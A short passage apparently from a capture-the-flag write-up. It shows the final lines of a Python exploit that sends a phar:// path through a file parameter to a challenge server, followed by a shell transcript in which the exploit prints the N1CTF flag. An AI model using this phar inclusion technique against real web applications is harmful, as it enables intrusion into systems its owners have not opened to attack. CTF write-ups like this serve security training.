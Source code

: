 ```python
    print("Getflag!")
    print(requests.get("http://43.155.59.185:53340/index.php?file=phar://log/158.101.144.10/" +generated_type + "_www.log").text)
```

Running the exploit will print the flag.

```shell
root@stypr-jpn:~/aaa/phar# python exp_make.py
Sending exp to the server...
Getflag!
download code:/download_env.zipfile exist!FLAG: n1ctf{f6ebe132457a2890285ccab4f8c834bd}
```
